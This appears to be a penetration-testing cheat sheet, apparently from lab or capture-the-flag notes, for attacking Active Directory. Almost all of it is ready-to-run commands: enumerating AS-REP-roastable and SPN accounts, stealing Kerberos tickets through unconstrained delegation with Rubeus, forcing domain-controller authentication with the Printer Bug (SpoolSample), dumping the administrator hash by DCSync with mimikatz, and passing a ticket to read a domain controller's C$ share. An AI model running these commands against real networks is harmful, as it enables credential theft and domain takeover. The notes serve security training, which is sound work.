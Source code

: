 ```powershell
# Check for ASREP
Get-ADUser -Filter {DoesNotRequirePreAuth -eq 'True'}

# Check SPN
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName | Select-Object Name, SamAccountName, ServicePrincipalName
```

### <mark style="color:yellow;">Unconstrained Delegation - Computers</mark>

If compromised a server and Domain admin logs in we can extract their TGT.

```powershell
# Monitoring for logins
.\Rubeus.exe monitor /interval:5 /nowrap

# Use ticket to request another ticket
.\Rubeus.exe asktgs /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /service:cifs/dc01.ZENCORP.local /ptt

# Get new TGT 
.\Rubeus.exe renew /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /ptt
```

### <mark style="color:yellow;">Printer Bug</mark>

Printer Bug is a vulnerability in the MS-RPRN protocol which is used for managing print jobs and printers. This bug can trick a server into authenticating to another machine over SMB.

```powershell
# Rubeus in monitor mode
.\Rubeus.exe monitor /interval:5 /nowrap

# Trigger Printer Bug
.\SpoolSample.exe dc01.zencorp.local sql01.zencorp.local

# Use retrieved ticket to get a new TGT
.\Rubeus.exe renew /ticket:doIFZjCCBWKgAwIB9966JMGtJhKaNLBt21SY3+on4lrOrHo<SNIP> /ptt

# With TGT in memory perform DCSync
.\mimikatz.exe privilege::debug "lsadump::dcsync /domain:zencorp.local /user:administrator" exit
```

Using a hash and impersonate John Doe

```powershell
# Pass the ticket
.\Rubeus.exe asktgt /rc4:0fcb586d2aec31967c8a310d1ac2bf50 /user:john.doe /ptt

# Acces DC as john.doe
dir \\dc01.inlanefreight.local\c$
more \\DC01\Shares\Marketing\flag.txt
```
